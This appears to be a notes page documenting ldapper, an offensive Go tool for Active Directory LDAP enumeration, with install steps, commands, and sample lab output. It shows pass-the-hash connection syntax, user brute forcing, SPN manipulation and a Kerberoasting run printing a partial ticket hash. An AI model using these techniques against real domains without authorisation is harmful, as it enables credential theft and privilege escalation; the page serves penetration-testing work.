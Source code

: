 ```yaml
---
title : "ldapper"
# pre : ' '
description : "A GoLang tool to enumerate and abuse LDAP. Made simple."
date : 2022-09-25T12:59:17+02:00
# hidden : true
# draft : true
weight : 1040
tags : ['Other', 'LDAP', 'Active Directory']
---
```


---

A GoLang tool to enumerate and abuse LDAP. Made simple.

Ldapper was created with for use in offensive security engagements for user enumeration, group enumeration, and more. Ldapper uses familiar "net" commands such as "net user" and "net group" to perform all its queries and its output follows the same conventions. Ldapper's user interface operates as a interactive shell, where the user can input commands until exited. All traffic goes over the LDAP(S) protocol with a singular bind to help you better blend into the network. Ldapper is proxy aware and supports NTLM authentication with a user's hash. Additionally, this tool can perform modification actions within LDAP.

Ldapper is proxy aware and supports NTLM authentication with a user's hash. Additionally, this tool can perform modification actions within LDAP. More functionality is planned for later releases, but for now additional supported command functions are:

This tool should be considered in its beta stages. Please report any bugs, issues, or functionality ideas for future releases.

## Installation

```plain
git clone https://github.com/Synzack/ldapper
go mod tidy
go build
```

## Usage

```plain
./ldapper [command]
```

## Flags

```plain
Initialize/Deinitialize:
  connect     Connect to a LDAP server
  disconnect  Close the LDAP connection

Ldapper Commands:
  addComputer  Add a computer to the domain
  roast        Kerberoast a user with an SPN
  spn          Add or remove a SPN on a user account

Ldapper Enumeration:
  brute  Brute force users from a file. No authentication needed.

Ldapper Queries:
  dacl     Query the DACL of a target object
  getspns  Query all user accounts with an SPN
  groups   Query the groups for a target user
  mquota   Query the machine account quota of the domain
  net      Run net commands
  passpol  Query the password policy of the domain

Flags:
  -h, --help        display help
      --nocolor     disable color output
```

## Examples

### Setting up connection

NOTE: `-s` enables LDAP**S** instead of LDAP. LDAP by default is TCP based but Microsoft tend to use UDP for LDAP. LDAP**S** is TCP.

Optional flags:

- `-t` - Enable timestamps for each command performed
- `-s` - Enable the use of LDAP**S**

With Password:  `connect -u <username@domain> -p <password> -d <ip/FQDN>`

With Hash:      `connect -u <username@domain> -H <hash> -d <ip/FQDN>`

With Kerberos:  `connect -u <username@domain> -k -d <ip/FQDN>`

### Starting LDAP-shell session running 'net user'

```plain
crypt0rr@10.10.20.52:389 » net user administrator

User Information - administrator:
-------------------------------------------------------------------------------
User Name:              Administrator
Full Name:              Administrator
Comment:                Built-in account for administering the computer/domain
User Account Control:   USER_NORMAL_ACCOUNT
                        USER_DONT_EXPIRE_PASSWORD
                        (If Enabled, Check Last Lockout Time)
Last Lockout Time: 
Account Expires:        Never
Password Last Set:      12/23/2022 12:40:26 PM
Home Directory: 
Last Logon:             04/04/2023 05:57:05 PM
Logon Count:            70
Mail: 
SPN(s): 
```

### Retrieve ms-DS-MachineAccountQuota

```plain
crypt0rr@10.10.20.52:389 » mquota
Machine Account Quota: 10
```

### Checking password policy

```plain
crypt0rr@10.10.20.52:389 » passpol

Minimum Password Length:        7
Password History Length:        24
Lockout Threshold:              0
Lockout Duration:               10      minutes
Reset Account Lockout Counter:  10      minutes
Minimum Password Age:           1       day(s)
Maximum Password Age:           42      day(s)

Password Complexity:            DOMAIN_PASSWORD_COMPLEX
```

### Retrieve group members 'net group'

```plain
crypt0rr@10.10.20.52:389 » net group "Domain Admins"
Comment: Designated administrators of the domain

Primary Group Members
-------------------------------------------------------------------------------
NestedDAGroup (Group)           QUINN_NASH              ERNIE_GUTHRIE
DAMIAN_DUFFY                    GARTH_HARRINGTON        ALI_SANCHEZ
Administrator
```

A nested group is visible by the `(Group)` naming. To retrieve the members of this nested group use `net nestedGroups`.

```plain
crypt0rr@10.10.20.52:389 » net nestedGroups NestedDAGroup
Comment: 

Primary Group Members
-------------------------------------------------------------------------------
crypt0rr-adm             TANNER_ALSTON            BRANDON_LYNCH  
```

### Get list of SPNs and perform kerberoasting

```plain
crypt0rr@10.10.20.52:389 » getspns
SPN                     Username                PasswordLastSet                 LastLogon       Delegation
CIFS/AWSWVIR1000000     HAL_MURRAY              2022-07-04 15:27:52 +0200 CEST  <never>
CIFS/FINWWKS1000000     MYRON_FORD              2022-07-04 15:26:44 +0200 CEST  <never>
CIFS/TSTWDBAS1000000    SHIRLEY_RANDALL         2022-07-04 15:26:37 +0200 CEST  <never>
CIFS/TSTWVIR1000000     TANYA_DEJESUS           2022-07-04 15:19:32 +0200 CEST  <never>
ftp/AWSWAPPS1000000     HEATH_PATTON            2022-07-04 15:20:44 +0200 CEST  <never>
ftp/AWSWSECS1000000     ANGEL_WORKMAN           2022-07-04 15:25:28 +0200 CEST  <never>
ftp/BDEWWKS1000001      DIANNA_KIRBY            2022-07-04 15:27:31 +0200 CEST  <never>
ftp/FINWLPT1000003      MARVA_CLARK             2022-07-04 15:23:10 +0200 CEST  <never>
ftp/FINWWEBS1000001     RICKIE_RUSSO            2022-07-04 15:20:00 +0200 CEST  <never>
ftp/GOOWLPT1000001      ABE_MASON               2022-07-04 15:23:37 +0200 CEST  <never>
```

Roasting supports both RC4 and AES.

```plain
crypt0rr@10.10.20.52:389 » roast rc4 BERRY_TRAVIS
$krb5tgs$23$*BERRY_TRAVIS$OFFSEC.NL$BERRY_TRAVIS*$1eacfa05b0737825dcc664fabf2a8696$9bb5ddda4f021dcc414a67f768c5f06916c344c566769805f532dcd[...]
```

## URL List

- [Github.com - ldapper](https://github.com/Synzack/ldapper)
